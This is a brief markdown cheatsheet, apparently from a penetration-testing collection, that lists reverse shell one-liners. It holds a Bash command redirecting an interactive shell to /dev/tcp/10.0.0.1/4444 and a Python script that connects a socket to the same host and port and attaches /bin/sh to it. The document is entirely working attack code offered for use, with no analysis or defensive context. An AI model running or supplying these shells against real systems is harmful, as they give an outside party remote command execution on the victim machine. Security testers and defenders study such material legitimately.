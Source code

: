# Reverse Shell Cheatsheet

## Bash
`bash -i >& /dev/tcp/10.0.0.1/4444 0>&1`

## Python
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.0.0.1',4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
```
